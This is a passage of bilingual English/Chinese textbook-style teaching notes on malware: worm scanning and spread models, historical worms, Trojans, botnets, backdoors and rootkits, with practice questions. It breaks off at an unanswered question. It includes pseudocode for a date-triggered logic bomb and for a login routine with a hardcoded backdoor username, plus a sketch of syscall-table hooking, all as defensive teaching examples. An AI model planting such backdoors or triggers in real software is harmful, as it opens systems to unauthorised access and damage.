In the propagation phase the worm does two things. First, it searches for ways into other systems: host tables, address books, buddy lists, trusted peers, scanned addresses and removable media. Second, it transfers a copy and makes it run. It may check for an earlier infection. It may also disguise itself under a system-process name or inside an existing process.在传播阶段，蠕虫要做两件事。第一，它寻找进入其他系统的途径：主机表、通讯录、好友列表、受信任的对等方、扫描到的地址和可移动介质。第二，它传送一份副本并使其运行。它可能会先检查是否已经感染过。它还可能把自己伪装成某个系统进程的名字，或藏身于一个已有的进程之中。
Step 2: finding targets by scanning第 2 步：通过扫描寻找目标
A network worm must first find hosts that run the vulnerable service. This step is called scanning or fingerprinting. Every newly infected host repeats it. There are four strategies.网络蠕虫首先必须找到运行有漏洞服务的主机。这一步称为扫描或指纹识别。每台新感染的主机都会重复这一步。扫描有四种策略。
| Strategy策略 | Method方法 | Properties特性 |
|---|---|---|
| Random随机 | each host probes random IP addresses with its own seed每台主机用自己的种子探测随机 IP 地址 | heavy traffic that can disrupt the Internet before the attack流量巨大，可能在攻击之前就扰乱互联网 |
| Hit-list预设目标列表 | the attacker compiles a long list of vulnerable hosts, slowly to avoid detection; each infected host receives a part攻击者缓慢编制一份长长的脆弱主机列表以避免被发现；每台被感染的主机各得到其中一部分 | very short scanning period, hard to detect扫描时间非常短，难以发现 |
| Topological拓扑 | uses data on the victim, such as address books and host tables利用受害者的数据，如通讯录和主机表 | follows real connections沿着真实存在的连接扩展 |
| Local subnet本地子网 | a host behind a firewall scans its own network防火墙之后的主机扫描其所在网络 | reaches hosts that the firewall shields from outside可触及防火墙从外部屏蔽的主机 |
Example: a worm that sends probes to random addresses (random) makes heavy traffic, and most probes hit nothing. A worm that gets a prepared list of 5,000 vulnerable hosts (hit-list) needs almost no probing, so it is quiet and fast.例如，一个向随机地址发送探测包的蠕虫（随机扫描）会产生大量流量，而且大多数探测都打空了。一个拿到了预先准备好的 5000 台有漏洞主机列表的蠕虫（命中列表）几乎不需要探测，因此它既安静又快速。
Step 3: how fast does a worm spread?第 3 步：蠕虫扩散得有多快？
In words: a worm spreads like an epidemic: slowly at first, then very fast, then slowly again when few hosts are left.用文字表述：蠕虫像流行病一样扩散：开始很慢，然后非常快，当剩下的主机很少时又慢下来
Infection needs an infected source and a susceptible target. Therefore the infection rate is proportional to both numbers.感染需要一个已感染的源和一个易感的目标。因此，感染速率与这两个数量都成正比。

The curve has three phases.这条曲线分为三个阶段。
- Slow start. Few hosts are infected. Growth is exponential, because every new host also infects others.缓慢启动。 已感染的主机很少。增长是指数式的，因为每台新感染的主机也会去感染其他主机。
- Fast spread. Many probes hit hosts that are already infected. Growth is roughly linear but very quick.快速扩散。 许多探测都打在已经被感染的主机上。增长大致呈线性，但非常迅速。
- Slow finish. Most vulnerable hosts are infected. The rest are hard to find.缓慢收尾。 大多数有漏洞的主机已被感染，剩下的很难找到。
A defender must catch a worm in the slow start, when few hosts are infected. Speed depends on the propagation mode, on the vulnerability and on the similarity to earlier attacks. Solving the equation with \(S=N-I\) gives the logistic curve.防御者必须在缓慢启动阶段、感染的主机还很少时就抓住蠕虫。速度取决于传播方式、漏洞本身，以及它与早先攻击的相似程度。用 \(S=N-I\) 求解方程，就得到逻辑斯谛曲线。
Step 4: the Morris worm and other worms第 4 步：莫里斯蠕虫和其他蠕虫
The Morris worm (1988, UNIX) found hosts from trust tables, mail-forwarding files, remote-account permission tables and a network-status program. For each host it tried three ways in.莫里斯蠕虫（1988 年，UNIX）从信任表、邮件转发文件、远程账户权限表以及一个网络状态程序中找到主机。对每台主机，它尝试三种进入方式。
- Log in with passwords found by cracking the local password file (the account name and variations of it, 432 built-in words, the system dictionary; Chapter 17). The assumption is that users reuse passwords on different systems.用破解本地口令文件得到的口令登录（尝试账户名及其变形、432 个内置词汇和系统词典；见第 17 章）。这个假设是用户会在不同系统上重复使用口令。
- Use a bug in the UNIX finger service.利用 UNIX finger 服务中的一个缺陷。
- Use a trapdoor in the debug option of the mail handler.利用邮件处理程序调试选项中的一个陷门。
On success it sent a bootstrap program to the command interpreter, which downloaded the rest of the worm. Other worms, one line each:一旦成功，它就把一个引导程序发送给命令解释器，由该解释器下载蠕虫的其余部分。其他蠕虫，每个用一行说明：
| Worm蠕虫 | Notable features主要特征 |
|---|---|
| Melissa (1998–99)Melissa（1998–99 年） | Word macro mailed to contacts: virus, worm and Trojan in one; 100,000 machines in 3 daysWord 宏邮寄给联系人：兼具病毒、蠕虫和木马的特点；3 天内感染 100,000 台机器 |
| Code Red (2001)Code Red（2001 年） | IIS flaw; random scanning; DoS flood against a government site; about 360,000 servers in 14 hours. Code Red II scanned its local subnet and installed a backdoorIIS 缺陷；随机扫描；对某政府网站发起 DoS 洪泛攻击；14 小时内感染约 360,000 台服务器。Code Red II 扫描其本地子网并安装后门 |
| Nimda (2001)Nimda（2001 年） | five routes: e-mail, Windows shares, IIS servers, infected web pages, backdoors left by Code Red II五条途径：电子邮件、Windows 共享、IIS 服务器、被感染的网页，以及 Code Red II 留下的后门 |
| SQL Slammer (2003)SQL Slammer（2003 年） | buffer overflow in a database server; tiny; 90% of vulnerable hosts in 10 minutes, congesting the Internet数据库服务器中的缓冲区溢出；代码极小；10 分钟内感染 90% 的脆弱主机，导致互联网拥塞 |
| Stuxnet (2010)Stuxnet（2010 年） | targeted industrial control systems; four zero-days; deliberately slow spread; claimed to be the first serious cyberweapon used against physical infrastructure针对工业控制系统；利用四个零日漏洞；刻意缓慢地传播；据称是第一个用于攻击实体基础设施的严重网络武器 |
| WannaCry (2017)WannaCry（2017 年） | ransomware worm using an SMB flaw; hundreds of thousands of systems in over 150 countries; slowed by an accidental kill-switch domain利用 SMB 缺陷的勒索软件蠕虫；在 150 多个国家感染了数十万台系统；因一个偶然生效的终止开关域名而减缓 |
Modern worms are multiplatform, multi-exploit, ultrafast, polymorphic and metamorphic. They act as transport vehicles for bots, rootkits, spam generators and spyware. A zero-day exploit（零日漏洞利用）targets a vulnerability that nobody knew before the worm was launched. This gives maximum surprise.现代蠕虫具有多平台、多漏洞利用、超高速、多态和变形等特点。它们还充当僵尸程序、rootkit、垃圾邮件生成器和间谍软件的运载工具。零日漏洞利用针对的是在蠕虫发布之前无人知晓的漏洞，因此突袭性最强。
Practice练习
Q1. (Calculation) In the Code Red-like example (\(K=1.80\) per hour, \(N=360{,}000\)) a hit-list gives \(I_0=5{,}000\) instead of 10. Find \(t_{50}\) and \(t_{90}\) and compare.Q1.（计算）在类 Code Red 的例子中（\(K=1.80\) 每小时，\(N=360{,}000\)），改用预设目标列表时得到 \(I_0=5{,}000\)，而不是 10。求 \(t_{50}\) 和 \(t_{90}\)，并加以比较。
Answer
\((N-I_0)/I_0=355{,}000/5{,}000=71\). \(t_{50}=\ln71/K=4.263/1.80=2.4\) h; \(t_{90}=\ln(9\times71)/K=6.460/1.80=3.6\) h. Compared with 5.8 h and 7.0 h, the hit-list removes about 3.5 h of slow start, while the fast-spread time from 10% to 90% (2.4 h) is unchanged because it depends only on \(K\).\((N-I_0)/I_0=355{,}000/5{,}000=71\)。\(t_{50}=\ln71/K=4.263/1.80=2.4\) 小时；\(t_{90}=\ln(9\times71)/K=6.460/1.80=3.6\) 小时。与 5.8 小时和 7.0 小时相比，预设目标列表省去了约 3.5 小时的缓慢启动，而从 10% 到 90% 的快速扩散时间（2.4 小时）保持不变，因为它只取决于 \(K\)。
易错：热名单只缩短慢启动，不改变 10%→90% 的快速扩散时间。
Q2. (Matching) Name the scanning strategy: (a) each infected host receives part of a prepared list; (b) a host inside a firewall scans its own network; (c) targets come from address books and trusted-host tables; (d) each host probes random addresses. Which is hardest to notice, and why?Q2.（匹配）说出以下扫描策略的名称：(a) 每台已感染主机各得到一份预先准备列表的一部分；(b) 防火墙之内的主机扫描其所在网络；(c) 目标来自通讯录和可信主机表；(d) 每台主机探测随机地址。哪一种最难被发现？为什么？
Answer
(a) Hit-list; (b) local subnet; (c) topological; (d) random. The hit-list worm is hardest to notice: the list was compiled slowly beforehand, so the attack has almost no slow start and few failed probes. Random scanning is the noisiest.(a) 预设目标列表；(b) 本地子网；(c) 拓扑；(d) 随机。预设目标列表蠕虫最难被发现：列表是事先缓慢编制的，因此攻击几乎没有缓慢启动阶段，失败的探测也很少。随机扫描则最为显眼。
Q3. (Recall) List the ways the Morris worm tried to enter a discovered host, and the assumption behind the first.Q3.（回忆）列出 Morris 蠕虫尝试进入已发现主机的方式，并说明第一种方式所基于的假设。
Answer
(1) Log in as a legitimate user with passwords found by cracking the local password file, assuming that users reuse passwords on different systems; (2) a bug in the UNIX finger service; (3) a trapdoor in the debug option of the mail-handling process. On success it sent a bootstrap program to the command interpreter, which downloaded the rest of the worm.(1) 以合法用户身份登录，所用口令来自破解本地口令文件，并假定用户会在不同系统上重复使用口令；（2）UNIX finger 服务中的一个缺陷；（3）邮件处理过程调试选项中的一个后门。成功后，它向命令解释器发送一个引导程序，由其下载蠕虫的其余部分。
Drive-by-downloads, social engineering and Trojans ★★路过式下载、社会工程与木马
Goal. Explain how malware reaches users who run no vulnerable server: drive-by-downloads, malvertising, phishing and Trojans. Give the three Trojan models.目标。 解释恶意软件如何到达那些没有运行有漏洞服务器的用户：路过式下载、恶意广告、网络钓鱼和特洛伊木马。给出特洛伊木马的三种模型。
Step 1: client-side attacks第 1 步：客户端攻击
In a drive-by-download（路过式下载）a web page that the attacker controls exploits a flaw in the browser or a plugin (Flash, Java, a PDF viewer). It installs malware without the knowledge or consent of the user. Unlike a worm, it does not spread by itself. It waits for visitors.在路过式下载中，攻击者控制的网页会利用浏览器或插件（Flash、Java、PDF 阅读器）中的缺陷。它会在用户不知情、未同意的情况下安装恶意软件。与蠕虫不同，它不会自行扩散，而是等待访问者上门。
- Watering-hole attack（水坑攻击）: the attacker finds the sites that the intended victims visit, compromises them and waits. The code may infect only targeted visitors.水坑攻击：攻击者找到目标受害者常访问的网站，攻陷这些网站，然后等待。代码可能只感染被选中的访问者。
- Malvertising: paid advertisements that carry malware appear on target sites. The sites are not compromised. The advertisements may run for only a few hours and are hard to track.恶意广告：带有恶意软件的付费广告出现在目标网站上。这些网站本身并未被攻陷。广告可能只投放几个小时，很难追踪。
Mobile code（移动代码）is software, for example a script or a macro, that is sent unchanged to different platforms and runs with the same meaning on each. It runs locally without an explicit instruction by the user. It can carry viruses, worms and Trojans, or it can exploit flaws itself. Examples are Java applets, ActiveX, JavaScript and VBScript (cross-site scripting: Chapter 15). Clickjacking（点击劫持）hides transparent or opaque layers over a page, so that a click meant for one page goes to another.移动代码是一种软件，例如脚本或宏，它被原样发送到不同平台，并在每个平台上以相同的含义运行。它在本地运行，无需用户明确下达指令。它可以携带病毒、蠕虫和特洛伊木马，也可以自己利用缺陷。例子包括 Java applet、ActiveX、JavaScript 和 VBScript（跨站脚本，见第 15 章）。点击劫持在页面上方覆盖透明或不透明的图层，使本来要点击某个页面的点击，实际落到另一个页面上。
Step 2: spam, phishing and spear-phishing第 2 步：垃圾邮件、网络钓鱼和鱼叉式网络钓鱼
Spam is unsolicited bulk e-mail. It is more than half of inbound business mail and is mostly sent by botnets. It carries advertising, scams, malware and phishing. Phishing（网络钓鱼）mass-mails messages that pose as a trusted source. They lead users to a fake login page or a form that returns personal data. The aim is impersonation (identity theft). Spear-phishing（鱼叉式网络钓鱼）sends tailored e-mails with malicious attachments to specific, researched people. The aims are espionage and fraud, such as a bogus wire transfer.垃圾邮件是未经请求的群发电子邮件。它占企业收到邮件的一半以上，而且大多由僵尸网络发出。它包括广告、诈骗、恶意软件和钓鱼内容。网络钓鱼群发假冒可信来源的邮件。它们把用户引到假的登录页面，或者引到一个会回传个人数据的表单。其目的是冒充他人（身份盗窃）。鱼叉式网络钓鱼向经过调查的特定人员发送量身定制的邮件，并附带恶意附件。其目的是间谍活动和欺诈，例如伪造的电汇。
Step 3: Trojan horses第 3 步：特洛伊木马
In words: a Trojan horse = a program that looks useful but hides a harmful function, and the user installs it.用文字表述：特洛伊木马 = 一种看起来有用、但藏有有害功能的程序，而用户自己把它装上了
A Trojan horse（特洛伊木马）is a useful, or apparently useful, program that contains hidden code. The code does an unwanted function when the program is invoked. The attacker achieves indirectly what he cannot do directly. There are three models.特洛伊木马是一种有用、或看上去有用的程序，其中包含隐藏的代码。程序被调用时，这段代码会执行一项不想要的功能。攻击者借此间接达到直接做不到的目的。它有三种模型。
| Model模型 | Meaning含义 | Example示例 |
|---|---|---|
| 1 | The original function plus a separate malicious activity原有功能加上一项独立的恶意活动 | A game that also e-mails your files一个游戏，同时会把你的文件发送到邮箱 |
| 2 | The original function is modified to be malicious or to hide other malware原有功能被修改，变得有恶意，或用来隐藏其他恶意软件 | A login program that collects passwords; a process lister that omits malicious processes一个收集密码的登录程序；一个会漏掉恶意进程的进程列表程序 |
| 3 | A malicious function completely replaces the original恶意功能完全取代原有功能 | A fake "security update" that only encrypts files一个假的“安全更新”，它只会加密文件 |
Trojans normally rely on the user to install them, so users must check the source of software. Some install themselves through a vulnerability, for example Hydraq in Operation Aurora. They then need no help from the user, but unlike worms they do not replicate. Early mobile worms (Cabir 2004, CommWarrior 2005) spread between Symbian phones over Bluetooth and MMS. Today most mobile malware is Trojan apps from app marketplaces (mainly Android) or from unofficial sites.特洛伊木马通常依赖用户自己安装，因此用户必须核实软件的来源。有些木马通过漏洞自行安装，例如 Aurora 行动中的 Hydraq。它们这时不需要用户帮助，但与蠕虫不同，它们不会复制自己。早期的手机蠕虫（Cabir 2004 年、CommWarrior 2005 年）通过蓝牙和 MMS 在 Symbian 手机之间传播。如今，大多数手机恶意软件是来自应用商店（主要是 Android）或非官方网站的木马应用。
Practice练习
Q1. (Compare) How does a drive-by-download differ from a worm? How does a watering-hole attack differ from malvertising?Q1.（比较）路过式下载与蠕虫有何不同？水坑攻击与恶意广告有何不同？
Answer
A drive-by-download exploits a browser or plugin flaw when a user views an attacker-controlled page and installs malware silently; unlike a worm it does not propagate by itself but waits for visitors. In a watering-hole attack the attacker researches which sites the intended victims visit, compromises those sites and waits, so it is highly targeted. Malvertising places paid advertisements with malware on target sites without compromising them; it may run only for hours and is hard to track.路过式下载在用户浏览攻击者控制的网页时利用浏览器或插件缺陷，悄无声息地安装恶意软件；与蠕虫不同，它不会自行传播，而是等待访问者。水坑攻击中，攻击者调查目标受害者访问哪些网站，入侵这些网站并等待，因此具有高度针对性。恶意广告则在目标网站上投放携带恶意软件的付费广告，而无需入侵这些网站；它可能只运行几个小时，且难以追踪。
Q2. (Scenario) An e-mail appears to come from a senior manager, mentions your current project and attaches a PDF "press release". Opening it shows a "Launch File" dialog with many blank lines, a scroll bar and the text "Click 'Open' to view this document". Analyse the threat.Q2.（情景分析）一封电子邮件看似来自某位高级经理，提到你目前的项目，并附有一份 PDF 格式的“新闻稿”。打开后出现一个“启动文件”对话框，其中有许多空行、一个滚动条，以及文字“点击‘打开’以查看此文档”。请分析该威胁。
Answer
The PDF carries an embedded launch action that runs a program; the blank lines push the real command text out of view, so clicking Open would run it, probably installing a Trojan or other malware. Check safely by scrolling the dialog to read the command, opening the file only in a sandbox or virtual machine, scanning it, or asking the sender through another channel. The attack is spear-phishing (trusted sender, details about your work), so only a small, researched group received it.该 PDF 带有一个嵌入的启动动作，用于运行程序；空行把真正的命令文本推到视野之外，因此点击“打开”就会运行该程序，很可能安装木马或其他恶意软件。安全的检查方法包括：滚动对话框以读取命令；仅在沙箱或虚拟机中打开文件；对其进行扫描；或通过其他渠道向发件人核实。该攻击属于鱼叉式网络钓鱼（发件人可信，且包含你工作的细节），因此只有一小群经过调查的目标收到了这封邮件。
Payloads: system corruption and bots ★★载荷：系统破坏与僵尸程序
Goal. Describe the damage that malware can do to a system, and explain what a bot is and how its C&C server controls it.目标。 描述恶意软件可能对系统造成的破坏，解释什么是僵尸程序，以及它的 C&C 服务器如何控制它。
Step 1: system corruption第 1 步：系统破坏
A payload is what malware does once it is active. Four kinds of system corruption must be known.载荷是恶意软件激活后所做的事情。必须了解四类系统破坏。
- Data destruction. The Chernobyl virus overwrote the first megabyte of the hard drive with zeros on a trigger date and tried to rewrite the BIOS. The Klez worm emptied files on the 13th of some months.数据破坏。 切尔诺贝利病毒在触发日期把硬盘的前 1 MB 用零覆盖，并试图改写 BIOS。Klez 蠕虫则在某些月份的 13 日清空文件。
- Ransomware（勒索软件）encrypts the data of the user and demands payment for the key. Early cases used weak cryptography that could be cracked. Gpcode and later families use public-key cryptography with large keys (Chapter 9), which cannot be broken without paying. WannaCry (2017) spread as a worm and demanded Bitcoin. Recovery depends on backups.勒索软件加密用户的数据，并要求支付密钥的费用。早期的案例使用了可被破解的弱密码。Gpcode 和后来的家族使用带有大密钥的公钥密码（见第 9 章），在不付费的情况下无法破解。WannaCry（2017 年）以蠕虫形式传播，并索要比特币。能否恢复取决于备份。
- Real-world damage. Stuxnet replaced the control code of specific Siemens industrial systems. Equipment, suspected to be uranium centrifuges, ran outside its operating range and failed.现实世界中的破坏。 Stuxnet 替换了特定西门子工业系统的控制代码。疑似铀离心机的设备超出运行范围运转，并最终损坏。
- A logic bomb（逻辑炸弹）is code that stays dormant until a condition is met. It then alters or deletes data, halts the machine or does other damage. Conditions are a file or device that is present or absent, a date or weekday, a software version or a particular user.逻辑炸弹是一段平时潜伏、直到满足某个条件才发作的代码。发作时，它会修改或删除数据、让机器停机，或造成其他破坏。条件可以是某个文件或设备存在或不存在、某个日期或星期几、某个软件版本，或某个特定用户。
Example of a logic bomb: legitimate code; if date is Friday the 13th: crash_computer(); legitimate code.逻辑炸弹的例子：legitimate code; if date is Friday the 13th: crash_computer(); legitimate code。
Step 2: attack agents, bots and botnets第 2 步：攻击代理、僵尸程序和僵尸网络
In words: a bot = a hijacked computer that waits for orders from its owner's server.用文字表述：僵尸程序 = 一台被劫持的计算机，它等待其控制者服务器发出的指令
A bot（僵尸程序, also zombie or drone）secretly takes over an Internet-connected computer: a PC, a server, a router or a camera. The attacker uses it for attacks that are hard to trace to him. A botnet（僵尸网络）is a set of bots that act in a coordinated way. Uses of a botnet:僵尸程序（也称僵尸主机或无人机）秘密接管一台联网的计算机：个人电脑、服务器、路由器或摄像头。攻击者利用它发起难以追查到自己的攻击。僵尸网络是一组协同行动的僵尸程序。僵尸网络的用途包括：
- distributed denial-of-service (DDoS) attacks (Chapter 23);分布式拒绝服务（DDoS）攻击（见第 23 章）；
- spam and phishing mail, and spyware;垃圾邮件和网络钓鱼邮件，以及间谍软件；
- click fraud;点击欺诈；
- hosting file-sharing or malware servers;托管文件共享服务器或恶意软件服务器；
- scanning for more victims, and chatterbots that harvest personal data;扫描更多的受害者，以及收集个人数据的聊天机器人；
- cryptocurrency mining.加密货币挖矿。
The remote control facility distinguishes a bot from a worm. A worm spreads and starts itself. A bot is controlled through a command-and-control (C&C)（命令与控制）server network, which it may contact only now and then.远程控制机制使僵尸程序有别于蠕虫。蠕虫自己传播并自行启动。僵尸程序则受命令与控制（C&C）服务器网络的控制，它可能只是偶尔与这些服务器联系。
- Early botnets used an IRC channel whose messages the bots treated as commands. Newer ones use hidden HTTP channels, or peer-to-peer control so that no single point of failure exists.早期的僵尸网络使用 IRC 频道，僵尸程序把频道中的消息当作指令。较新的僵尸网络使用隐蔽的 HTTP 通道，或者采用对等控制，因此不存在单一故障点。
- A fixed C&C address can be seized. Malware therefore uses domain generation: it creates many names and the attacker registers one of them. Defenders must reverse-engineer the algorithm. It also uses fast-flux DNS: the address behind a name changes every few minutes across proxies, often other bots.固定的 C&C 地址可能被夺取。因此，恶意软件使用域名生成：它生成大量域名，攻击者只注册其中一个。防御者必须对算法进行逆向工程。它还使用fast-flux DNS：域名背后的地址每隔几分钟就通过代理变化一次，这些代理往往是其他僵尸主机。
- The controller issues built-in commands. An update command makes the bots download and run a new file, which turns the bot into a general-purpose tool. The controller also collects stolen data.控制者下达内置命令。更新命令会让僵尸程序下载并运行一个新文件，从而把僵尸程序变成通用工具。控制者还负责收集被盗的数据。
Taking over or shutting down the C&C network is one effective countermeasure.接管或关闭 C&C 网络，是一种有效的对策。
Practice练习
Q1. (Identify) What malware is this: legitimate code; if date is Friday the 13th: crash_computer(); legitimate code? Give four other trigger conditions.Q1.（识别）这是哪种恶意软件：legitimate code; if date is Friday the 13th: crash_computer(); legitimate code？再给出四种其他触发条件。
Answer
A logic bomb (here a time bomb): code hidden in a legitimate program that stays dormant until a condition holds, then damages the system. Other triggers: presence or absence of a particular file or device, another date or weekday, a particular software version or configuration, a particular user running the application.逻辑炸弹（此处为时间炸弹）：隐藏在合法程序中的代码，在某一条件成立之前处于休眠状态，之后破坏系统。其他触发条件：某特定文件或设备的存在与否、其他日期或星期几、特定的软件版本或配置、运行该应用程序的特定用户。
Q2. (Scenario) A home PC answers network requests slowly and the gateway shows heavy traffic although the browser, mail client and other programs are closed. Which malware is likely, how could it have arrived, how do you check, and how do you recover?Q2.（情景分析）一台家用 PC 响应网络请求很慢，网关显示流量很大，但浏览器、邮件客户端和其他程序都已关闭。可能是哪种恶意软件？它是如何进入的？如何检查？如何恢复？
Answer
Likely a bot (zombie) sending spam or DDoS traffic or mining, or a worm scanning for victims. Entry: a Trojan, a drive-by-download, a worm exploiting an unpatched service, or an infected attachment. Check: list processes and open connections (netstat), watch the gateway traffic by destination, run up-to-date anti-malware, ideally from clean boot media. Recovery: disconnect, back up data, wipe and reinstall from clean media or a clean image, patch, change all passwords.很可能是发送垃圾邮件、发起 DDoS 流量或进行挖矿的僵尸程序（僵尸主机），也可能是为寻找受害者而扫描的蠕虫。进入途径：木马、路过式下载、利用未打补丁服务的蠕虫，或受感染的附件。检查：列出进程和已建立的连接（netstat），按目标地址查看网关流量，运行最新版本的反恶意软件工具，最好从干净的启动介质启动。恢复：断开网络，备份数据，从干净的介质或干净的镜像擦除并重装系统，打补丁，并更改所有口令。
Payloads: information theft, backdoors and rootkits ★★★载荷：信息窃取、后门与 rootkit
Goal. Explain how malware steals credentials, define a backdoor, and describe the six classes of rootkit and how a kernel rootkit hides files. Say how rootkits are detected and removed.目标。 解释恶意软件如何窃取凭证，定义后门，描述六类 rootkit 以及内核级 rootkit 如何隐藏文件。说明 rootkit 如何被检测和清除。
Step 1: credential theft, spyware and exfiltration第 1 步：凭证窃取、间谍软件和数据外泄
In words: a password sent over HTTPS is safe on the wire, so attackers steal it on the host, before it is encrypted.用文字表述：通过 HTTPS 发送的口令在网络上是安全的，因此攻击者会在主机上、加密之前把它窃取走
Credentials sent over HTTPS or IMAPS cannot be read on the network. Attackers therefore capture them on the host. A keylogger（键盘记录器）records the keystrokes. It filters for text near keywords such as "login" or "password". Websites answered with graphical entry applets, which take input without keyboard text. Attackers then moved to spyware（间谍软件）. It watches the browsing history and content, redirects requests to fake sites and modifies the data exchanged between the browser and chosen websites. The Zeus banking Trojan steals credentials with a keylogger and by altering form data.通过 HTTPS 或 IMAPS 发送的凭证无法在网络上被读取，因此攻击者在主机上获取它们。键盘记录器记录击键。它会筛选出“登录”或“口令”等关键词附近的文字。网站则改用图形化输入小程序来应对，这种输入不经过键盘文字。之后，攻击者转向了间谍软件。它监视浏览历史和内容，把请求重定向到假网站，并修改浏览器与指定网站之间交换的数据。银行木马 Zeus 通过键盘记录器和修改表单数据来窃取凭证。
Data exfiltration（数据外泄）is the unauthorised transfer of data from a system. It is done by APT malware, by outside hackers or by insiders who abuse legitimate access. It attacks confidentiality. The countermeasures are data-loss controls on the access to information and on what crosses the network perimeter.数据外泄是未经授权将数据从系统中转移出去。它可以由 APT 恶意软件、外部黑客，或滥用合法访问权限的内部人员实施。它攻击机密性。对策是对信息访问以及穿越网络边界的内容进行数据防丢失控制。
Step 2: backdoors第 2 步：后门
In words: a backdoor = a secret way into a program that skips the normal security check.用文字表述：后门 = 程序中一条秘密入口，它会跳过正常的安全检查
A backdoor（后门, trapdoor）is a secret entry point into a program. Whoever knows it gains access without the usual security procedure. Programmers use legitimate ones, called maintenance hooks, to debug without long set-up or authentication. The code recognises a special input sequence, a certain user ID or an unlikely sequence of events. Today a backdoor is usually a network service on a non-standard port that accepts commands. WannaCry included one. The operating system can hardly stop a backdoor inside an application. Security must therefore focus on program development, software updates and network services.后门（即陷门）是程序中的一个秘密入口。知道它的人无需通常的安全流程就能获得访问权限。程序员会使用一些合法的入口（称为维护钩子），以便在不做长时间设置或身份验证的情况下进行调试。代码会识别一个特殊的输入序列、某个用户 ID，或一连串不太可能出现的事件。如今，后门通常是一个运行在非标准端口上、接受命令的网络服务。WannaCry 就包含了这样一个后门。操作系统很难阻止应用程序内部的后门。因此，安全防护必须着重于程序开发、软件更新和网络服务。
Step 3: rootkits第 3 步：rootkit
In words: a rootkit = tools that give an attacker root access and also hide every sign of it, by lying to the programs that report on files, processes and registry entries.用文字表述：rootkit = 一组工具，既让攻击者获得 root 权限，又通过欺骗那些报告文件、进程和注册表项的程序来隐藏其所有痕迹
A rootkit（隐形根权限工具集）is a set of programs installed to keep covert access to a system with administrator (root) privileges. It hides the evidence of its presence by subverting the mechanisms that report on processes, files and registry entries. With root access the attacker controls the system. He changes programs and files, monitors processes and traffic, and gets backdoor access on demand. There are six classes.rootkit（隐形根权限工具集）是一组安装在系统中的程序，用于以管理员（root）权限保持对系统的隐蔽访问。它通过颠覆那些报告进程、文件和注册表项的机制，来掩盖自己存在的痕迹。有了 root 权限，攻击者就控制了系统。他可以修改程序和文件，监视进程和流量，并随时获得后门访问。rootkit 共有六类。
| Class类别 | Where it works and how运行位置与方式 |
|---|---|
| Persistent持久型 | runs at every boot from code in the registry or file system; easier to detect, since the stored copy can be scanned每次启动时从注册表或文件系统中的代码运行；由于存储的副本可以被扫描，因此更易检测 |
| Memory-based基于内存 | no persistent code, lost at reboot; harder to detect没有持久代码，重启后即丢失；较难检测 |
| User mode用户模式 | intercepts API calls and edits the results (a directory listing omits the rootkit's files)拦截 API 调用并修改其结果（目录列表中省略 rootkit 的文件） |
| Kernel mode内核模式 | intercepts native API calls in the kernel; can remove its process from the kernel's list of active processes拦截内核中的原生 API 调用；可将其进程从内核的活动进程列表中移除 |
| Virtual machine based基于虚拟机 | runs the OS as a guest above a thin hypervisor and intercepts its events transparently在薄型虚拟机监控器之上将操作系统作为客户机运行，并透明地拦截其事件 |
| External mode外部模式 | lives in BIOS, UEFI or system management mode, outside the normal operation of the system驻留在 BIOS、UEFI 或系统管理模式中，位于系统正常运行之外 |
Example: a user-mode rootkit edits the result of the directory-listing call, so the listing omits the rootkit's files. A kernel-mode rootkit does the same inside the kernel, so even the anti-virus program sees the false listing.例如，用户态 rootkit 篡改目录列表调用的结果，使列表中不再包含 rootkit 的文件。内核态 rootkit 在内核中做同样的事，因此即使是杀毒程序，看到的也是虚假的列表。
Three techniques change system calls.有三种技术可以改变系统调用。
- Modify the table: replace selected pointers so that a call goes to the routine of the rootkit. The knark rootkit does this.修改表项：替换选定的指针，使调用转到 rootkit 的例程。knark rootkit 就是这样做的。
- Modify the table targets: overwrite the legitimate routines with malicious code. The table itself is unchanged.修改表项的目标：用恶意代码覆盖合法的例程。表本身不变。
- Redirect the table: point the references of the kernel to a new table in new kernel memory.重定向系统调用表：让内核的引用指向内核新内存中的一张新表。
normal getdents() -> number n -> table[n] -> sys_getdents
1 table edit getdents() -> number n -> table[n] -> rootkit_getdents -> sys_getdents, then drops the rootkit's entries
2 target edit getdents() -> number n -> table[n] -> sys_getdents (its code is overwritten by the rootkit)
3 table moved getdents() -> number n -> table'[n] -> rootkit_getdents (original table untouched)
The latest rootkits run entirely below the operating system. A rogue hypervisor（虚拟机监控器）runs the operating system as a guest. SubVirt (2006) modified the boot process of Windows under Virtual PC or VMware and could be detected. Blue Pill installed a thin hypervisor under a running Windows Vista and was far harder to detect. Others abuse system management mode, BIOS or UEFI code, which outside code cannot see. Defence requires a secure boot process.最新的 rootkit 完全运行在操作系统之下。一个恶意的虚拟机监控器把操作系统作为客户机运行。SubVirt（2006 年）在 Virtual PC 或 VMware 下修改了 Windows 的启动过程，并且可以被检测到。Blue Pill 在正在运行的 Windows Vista 之下安装了一个轻量级虚拟机监控器，检测难度大得多。还有一些利用系统管理模式、BIOS 或 UEFI 代码的 rootkit，外部代码无法看到这些地方。防御需要安全启动过程。
Countermeasures. IDS and anti-virus detect known rootkits by signature. New rootkits need behaviour checks, such as system-call interception or a keylogger that talks to the keyboard driver. This is hard, because anti-virus also intercepts system calls. A cross-view integrity check compares the view of storage that the APIs return with a raw view that bypasses them. The rootkit changes only the first view, so the difference exposes it (RootkitRevealer). Recovery from a kernel-level or virtual-machine rootkit needs a complete reinstall of the operating system. A UEFI rootkit may need a hardware replacement.对策。 入侵检测系统和杀毒软件通过特征码检测已知的 rootkit。新的 rootkit 则需要行为检查，例如拦截系统调用，或者与键盘驱动程序通信的键盘记录器。这很困难，因为杀毒软件本身也会拦截系统调用。交叉视图完整性检查，把 API 返回的存储视图与绕过 API 的原始视图进行比较。rootkit 只改变了第一种视图，因此两者之间的差异就暴露了它（RootkitRevealer）。从内核级或虚拟机级 rootkit 中恢复，需要彻底重装操作系统。UEFI rootkit 可能需要更换硬件。
Practice练习
Q1. (Identify) What is this fragment of an authentication program, and why can the operating system not prevent it? username = read_username(); password = read_password(); if username is "133t h4ck0r" return ALLOW_LOGIN; if username and password are valid return ALLOW_LOGIN else return DENY_LOGINQ1.（识别）这段身份验证程序片段是什么？为什么操作系统无法阻止它？username = read_username(); password = read_password(); if username is "133t h4ck0r" return ALLOW_LOGIN; if username and password are valid return ALLOW_LOGIN else return DENY_LOGIN
Answer
